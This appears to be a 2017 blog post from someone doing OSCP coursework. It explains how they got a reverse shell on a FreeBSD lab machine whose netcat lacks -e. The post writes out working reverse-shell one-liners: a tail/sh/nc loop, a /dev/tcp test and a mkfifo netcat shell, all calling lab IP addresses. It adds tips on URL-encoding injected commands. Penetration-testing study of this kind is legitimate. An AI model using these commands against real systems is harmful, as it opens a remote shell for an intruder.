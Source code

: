 ```yaml
---
layout: inner
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security
tags: netcat hack draft
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see... Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, not quite my expertise.

<img src="/images/posts/netcat_freebsd.png" 
     alt="Netcat on FreeBSD"
     width="320px"
     class="media pull-right img-thumbnail">
I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.

1. Use tail -f to feed commands from a temporary file to bash. (Using -n 0 to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:
{% highlight bash %}
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
{% endhighlight %}

And don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous [/dev/tcp/<ip>/<port>](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) did not work either. The following command did not result in any response on my machine.

{% highlight bash %}
echo foo > /dev/tcp/10.11.0.13/443
{% endhighlight %}

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

{% highlight bash %}
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
{% endhighlight %}

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the "mkfifo pipe" command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When uname -a gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: chmod +x did not work, chmod 777 did the job... (◔_◔)

